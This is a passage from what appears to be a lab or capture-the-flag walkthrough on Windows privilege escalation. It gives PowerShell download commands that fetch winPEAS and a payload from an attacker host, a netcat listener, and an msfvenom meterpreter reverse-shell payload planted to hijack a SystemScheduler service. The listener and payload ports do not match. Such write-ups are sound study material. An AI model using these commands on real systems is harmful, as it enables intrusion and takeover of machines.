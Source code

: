 Then upload it to you meterpreter shell.

Copy winPEAS to meterpreter with the command
`powershell -c "Invoke-WebRequest -Uri 'http://10.10.107.62:8000/Desktop/winPEASx64.exe' -OutFile 'C:\Windows\Temp\winPEASx64.exe' "

Run winPEAS and check if there are is any usefull information to help you escalate your priviledges.

<img width="1337" alt="25_winPEASx64 exe_servicesinfo" src="https://user-images.githubusercontent.com/28839345/165507868-522b02a6-bb4c-4e8f-8033-767449c36219.png">

As you can see there is a programm running in SystemScheduler which may be usefull to us.
Possibly hijacking 
"C:\Program Files (x86)\SystemScheduler" 
You can use the `TASKLIST` command to **display a list of currently-running tasks** as show in the below picture

<img width="1076" alt="27" src="https://user-images.githubusercontent.com/28839345/165507874-d66eb5b2-3622-4e99-811b-afd8268d02af.png">

<img width="574" alt="28" src="https://user-images.githubusercontent.com/28839345/165507881-4efff9e2-13c6-4e64-b864-1be9d8c95657.png">

The next step is to create a new reverse_shell 
Spawn a reverse shell to 4449 
`nc -nlvp 4449`

- Create the msfvenom payload to your machine and name it 'Message.exe'.
`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.83.129 LPORT=4446 -f exe -o Message.exe`

- Upload the reverse shell  'Message.exe' to meterpreter shell  to the directory "C:\Program Files (x86)\SystemScheduler" and wait for it to run.
`powershell -c wget  "http://10.10.107.62:8000/Message.exe" -outfile "Message.exe"`

You will finally get a reverse shell as shown bellow.

<img width="574" alt="28" src="https://user-images.githubusercontent.com/28839345/165507881-4efff9e2-13c6-4e64-b864-1be9d8c95657.png">

**Using winPeas, what was the Original Install time? (This is date and time)**

<img width="648" alt="30_systeminfo" src="https://user-images.githubusercontent.com/28839345/165507887-1f42d875-81fb-46b0-989d-f4c20d6a7639.png">

8/3/2019, 10:43:23 AM







